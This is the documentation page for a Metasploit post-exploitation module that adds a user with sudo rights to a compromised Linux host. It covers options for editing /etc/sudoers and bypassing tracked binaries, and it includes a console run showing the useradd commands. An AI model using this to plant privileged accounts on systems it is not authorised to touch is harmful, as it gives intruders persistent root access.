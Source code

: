 ## Vulnerable Application

This module creates a new user using the standard (or non-standard) means of
creating a new user on the victim OS. This module requires root privileges
in order to run as it needs access to /etc/shadow.

## Tested Versions

 * Debian 11.7
 * Alpine 3.17
 * Fedora 37

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. `use post/linux/manage/adduser`
  4. `set session <id>`
  5. attempt to log in with account


## Options

### USERNAME

Provide the username that can be used. Linux has a standardization that means
that password have to follow this regex to be able to be used as a username
`^[a-z][a-z0-9_-]{0,31}$`

### PASSWORD

Provides a password for your new user.

### SHELL

Define the shell that is to be used. Defaults to `/bin/sh` but can be changed
to a shell that exists.

### HOME

Speficy the home directory of the new user. An empty value specifies that the
home directory does not exist.

### GROUPS

Specify what groups the new user should be under. Takes one or multiple values
to provide what groups the new user will have.

## Advanced Options

### SudoMethod

Sets the method that the new user will get root access. This can be done
through multiple methods provided below:

 * **GROUP** - Put the new user in the sudo group (is added automatically to
 the groups option)
 * **SUDO_FILE** - Adds user directly to `/etc/sudoers` file in order to
 prevent being removed from sudoers group
 * **NONE** - No sudo methods are provided. New user is a unprivileged user

### UseraddMethod

Set the method used to create new user.

 * **AUTO** - The default option. The module will figure out how to add in the
 user by itself.
 * **MANUAL** - Instead of using a binary on the system, add in the new user
 directly into the FileSystem. This can be preferred if the binary can be
 inconsistent or tracked.
 * **CUSTOM** - Set the custom binary to add in a user. Can be used to pipe
 auto detection towards a preferred binary such as debians dual choice of
 useradd and adduser, or alpines busybox.

### UseraddBinary

Set the binary used to add the user. The two main binaries concerned with are
`useradd` and `adduser`. If you want to overwrite which binary is used or give
an absolute path rather than a relative path, you can override it here.

### MissingGroups

This option decides how to manage groups requested that are missing on the victim.
The possible options are provided as such:

 * **ERROR** - If a group is missing, fail the module with a given error
 * **IGNORE** - If the group doesnt exist, continue to add the user, but dont add
 them to the missing groups
 * **CREATE** - If the group doesnt exist, then make them first then add the user
 to them

## Scenarios

```
msf6 > use post/linux/manage/adduser
msf6 post(linux/manage/adduser) > set session 6 
session => 6
msf6 post(linux/manage/adduser) > set sudomethod GROUP 
sudomethod => GROUP
msf6 post(linux/manage/adduser) > set groups wheel docker wireshark
groups => wheel docker wireshark
msf6 post(linux/manage/adduser) > set username metasploit
username => metasploit
msf6 post(linux/manage/adduser) > set password abcd1234
password => abcd1234
msf6 post(linux/manage/adduser) > set shell /bin/bash
shell => /bin/bash
msf6 post(linux/manage/adduser) > set home /home/metasploit
home => /home/metasploit
msf6 post(linux/manage/adduser) > set missinggroups CREATE 
missinggroups => CREATE
msf6 post(linux/manage/adduser) > set verbose true 
verbose => true
msf6 post(linux/manage/adduser) > run

[-] Groups [docker] do not exist on system
[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] groupadd docker
[*] 
[+] Added docker group
[*] useradd --password $1$WDX5Sg4N$Hcfx4HSigx/KbvtSzhsXD/ --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] 
[*] Post module execution completed
msf6 post(linux/manage/adduser) > run

[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] useradd --password $1$EVUDKEc3$Sip80MAZmLv.2vOhzW/4k0 --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] useradd: user 'metasploit' already exists
[*] Post module execution completed
```
